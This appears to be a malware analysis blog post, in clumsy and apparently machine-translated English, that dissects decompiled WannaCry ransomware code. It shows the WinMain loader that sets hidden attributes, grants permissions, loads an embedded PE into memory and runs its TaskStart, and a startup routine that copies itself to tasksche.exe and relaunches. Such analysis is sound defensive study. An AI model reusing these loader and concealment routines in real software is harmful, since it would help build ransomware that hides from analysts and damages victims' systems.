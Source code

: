 ```C++
    StartProcess(CommandLine, 0, 0);            // attrib +h : Sets the hidden file attribute.
    StartProcess(aIcacls_GrantEv, 0, 0);
    if ( InitKernel32Funcs() )
    {
      CProgram::ctor(&Program);
      if ( CProgram::Initialize(&Program, 0, 0, 0) )
      {
        nFileSize = 0;
        lpPEFile = CProgram::GetPeFile(&Program, aT_wnry, &nFileSize);
        if ( lpPEFile )
        {
          pPeBuilder = WncryLoadPE(lpPEFile, nFileSize);
          if ( pPeBuilder )
          {
            fpTaskStart = WncrySeek2TaskStart(pPeBuilder, szTaskStart);
            if ( fpTaskStart )
              fpTaskStart(0, 0);
          }
        }
      }
      CProgram::dtor_0(&Program);
    }
  }
  return 0;
}
```

WinMain code is easy to understand, declare a few variables, which CProgram object, CPeBuilder pointer, and fpTaskStart WinMain is the key to the operation, WinMain is the purpose of dynamically loading a Pe dll to memory and run up, the whole process to do quite The concealment. The WinMain function declares a 520 byte array on the stack to get the full path to the current process. The program will use this path to copy the file and name it tasks.exe and call StartMalware to start itself.

Here Malware has been through the zeroday holes into the Endpoint and was launched, I think there is a common phase, I define this stage as **hidden stage**. What is the hidden stage, in other words Malware at this stage is not the first to do the implementation of the attack code, but in the implementation of the attack before the first to hide their whereabouts, camouflage himself as a seemingly normal procedure, and in the future log investigation Confuse the analyst.

```C++
if ( *_p___argc() != 2
|| (argv = _p___argv(), strcmp(*(*argv + 1), aI))
|| !CreateHiddenData(0)
|| (CopyFileA(szModuleFileName, FileName, 0), GetFileAttributesA(FileName) == INVALID_FILE_ATTRIBUTES)
|| !StartMalware() )
```

Take a closer look at this code, Wannacry started the first time after a few key operations:

- Check the startup parameters
- create hidden data (folder)
- Rename to tasksche.exe
- Start yourself again

